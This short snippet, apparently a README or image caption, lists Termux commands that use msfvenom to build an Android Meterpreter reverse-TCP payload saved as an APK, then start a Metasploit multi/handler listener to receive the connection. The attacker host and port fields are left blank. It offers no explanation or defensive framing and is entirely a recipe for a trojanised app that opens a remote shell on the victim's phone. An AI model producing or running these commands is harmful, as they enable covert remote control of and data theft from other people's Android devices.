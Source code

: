 
apt update && apt upgrade -y
termux-setup-storage
ls
msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT= -o,/sdcard/A2.apk

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 
set lport
exploit
